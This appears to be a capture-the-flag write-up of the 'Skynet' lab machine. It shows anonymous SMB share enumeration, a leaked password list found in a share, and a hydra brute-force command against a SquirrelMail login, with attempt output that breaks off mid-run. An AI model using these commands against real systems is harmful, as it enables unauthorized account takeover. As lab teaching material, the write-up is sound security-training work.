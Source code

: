 After enumerating the site I found a few interesting directories
 - /admin
 - /squirrel This forwarded me to the squirrel mail client

 Lets look at SMB shares on port 445, nmap revealed it has anonymous access.

 ```bash
 smbclient -L \\\\10.10.36.101\\
 Enter WORKGROUP\kali password:

 	Sharename       Type      Comment
 	---------       ----      -------
 	print$          Disk      Printer Drivers
 	anonymous       Disk      Skynet Anonymous Share
 	milesdyson      Disk      Miles Dyson Personal Share
 	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
 Reconnecting with SMB1 for workgroup listing.

 	Server               Comment
 	---------            -------

 	Workgroup            Master
 	---------            -------
 	WORKGROUP            SKYNET
 ```
The share "anonymous" has anonymous access!

It contains some log files and an "attention.txt" which reads
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

That is interesting!

Also in this directory is a "logs.txt" which looks like it is a set of passwords.

---
### Brute force squirrel mail with hydra

The `attention.txt` is by a person called "milesdyson" lets try all theses passwords against that username in the mail login. You can use hydra to perform brute logon attempts using the `http-post-form` module which just attempts to login with milesdyson with every password you supply it, Like so.

```bash
kali@kali:~/thm$ hydra 10.10.36.101 -l milesdyson -P log1.txt http-post-form "/squirrelmail/src/login.php:username=^USER^&password=^PASS^&Login=Login:S=" -f -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-30 16:36:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.36.101:80/squirrelmail/src/login.php:username=^USER^&password=^PASS^&Login=Login:S=
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "cyborg007haloterminator" - 1 of 31 [child 0] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator22596" - 2 of 31 [child 1] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator219" - 3 of 31 [child 2] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator20" - 4 of 31 [child 3] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1989" - 5 of 31 [child 4] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1988" - 6 of 31 [child 5] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator168" - 7 of 31 [child 6] (0/0)
```